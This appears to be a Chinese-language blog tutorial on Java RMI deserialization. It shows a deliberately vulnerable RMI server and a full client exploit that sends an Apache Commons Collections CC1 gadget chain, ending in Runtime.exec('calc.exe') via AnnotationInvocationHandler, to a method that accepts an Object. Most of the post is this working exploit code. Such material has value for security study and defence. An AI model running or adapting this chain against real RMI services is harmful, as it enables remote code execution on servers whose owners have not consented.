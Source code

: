 之前已经接触过RMI了,不过之前主要是了解的远程方法调用,对RMI的反序列化并不是很清楚

其实RMI反序列化和普通的反序列化相差不大,只是因为RMI在通信的时候是以序列化流传输的

既然有序列化那就有反序列化,RMI的反序列化和普通的反序列化就多了一个RMI通信的过程

**RMI反序列化的特点**

- RMI提供的数据有Object类型（因为攻击payload就是Object类型）
- 能够进行RMI通信
- 目标服务器引用了第三方存在反序列化漏洞的jar包

直接用一个CC1的例子来说明RMI反序列化吧

先起一个RMI服务（受害者）

```
package RMIunser;

import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

public class Server {

    public interface User extends Remote {
        public String name(String name) throws RemoteException;
        public void say(String say) throws RemoteException;
        public void Example(Object work) throws RemoteException;
    }

    public static class UserImpl extends UnicastRemoteObject implements User{

        protected UserImpl() throws RemoteException{
            super();
        }
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void Example(Object example) throws  RemoteException{
            System.out.println("This is " + example);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("RMI server is running");
    }
}
```

还是和RMI的定义一样,先定义接口然后再定义实现类,并且都要抛出相应的异常,最后绑定RMI服务端口

因为是对CC1进行复现,所以要选择8u71一下的jdk版本

接下来就是客户端也就是攻击者

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMIunser.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.Example(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```

与服务端的RMI服务进行通信,调用其中带Object数据类型参数的方法,然后在反序列化的时候就会执行payload

![image-20220209132629222](images/1.png)



其实RMI反序列化就是将RMI服务器当成一个readObject的点就可以了

具体的RMI通信过程可以通过wireshark抓取流量包来观察,可以在这篇先知上看到,P牛的java漫谈也有



参考链接

https://xz.aliyun.com/t/6660#toc-6

http://1.15.187.227/index.php/archives/497/
